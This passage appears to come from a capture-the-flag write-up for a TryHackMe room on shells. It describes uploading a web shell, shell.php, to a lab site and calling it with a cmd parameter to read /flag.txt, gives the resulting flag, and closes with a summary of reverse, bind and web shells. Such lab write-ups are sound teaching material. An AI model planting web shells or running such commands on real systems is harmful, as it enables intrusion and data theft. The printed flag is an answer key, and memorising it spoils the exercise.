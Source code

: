 We can upload the `shell.php` file to the website until **the upload is successful**.

![alt text](<Screenshot 2025-09-15 224303.png>)

And then, go to this URL `[MACHINE_IP]:8082/uploads/shell.php?cmd=cat%20/flag.txt` and we get the flag.

>THM{202bb14ed12120b31300cfbbbdd35998786b44e5}

## Task 9: Conclusion

Reverse Shells establish a connection from a compromised machine back to an attacker's system. Bind Shells listen for incoming connections on a compromised machine, and Web Shells offer attackers a unique avenue for exploiting vulnerabilities in web applications.
>No Answer Needed
